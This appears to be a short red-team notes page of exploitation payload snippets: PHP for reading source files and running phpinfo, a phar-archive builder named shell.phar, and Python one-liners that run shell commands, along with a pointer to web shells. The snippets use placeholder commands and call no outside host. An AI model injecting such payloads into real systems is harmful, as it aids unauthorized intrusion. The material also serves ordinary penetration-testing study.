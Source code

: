 # Exploitation Payloads

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) is the way to go, but I noted down some of mine.

<hr class="sep-both">

## PHP

<div class="row row-cols-lg-2"><div>

#### Read a file

`file_get_contents` is more common, but `show_source` works fine too.

```php!
<?php
$fileContents = file_get_contents('index.php');
$fileContents = show_source('index.php', true);
echo $fileContents;
?>
```

Base64 encoding is not always necessary, especially with `show_source`.

```php!
$fileContents = base64_encode($fileContents);
```
</div><div>

#### Execute Shell Commands

Refer to [webshells#php](/cybersecurity/red-team/s3.exploitation/shell/web_shell.md#php-web-shell).

<br>

#### PHP Info POC

We often run `phpinfo` to get information.

```php!
<?php phpinfo() ?>
```
</div></div>

<hr class="sep-both">

## Phar

<div class="row row-cols-lg-2"><div>

To create a simple phar archive:

```php!
<?php // php --define phar.readonly=0 shell.php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.php', '<?php /*code*/ ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
```
</div><div>
</div></div>

<hr class="sep-both">

## Python

<div class="row row-cols-lg-2"><div>

Simple python code to run a command.

```py
import os;os.system('ls -1a');
import os;os.popen("ls -1a").read();
import subprocess; subprocess.run(['ls', '-1a']);
```
</div><div>
</div></div>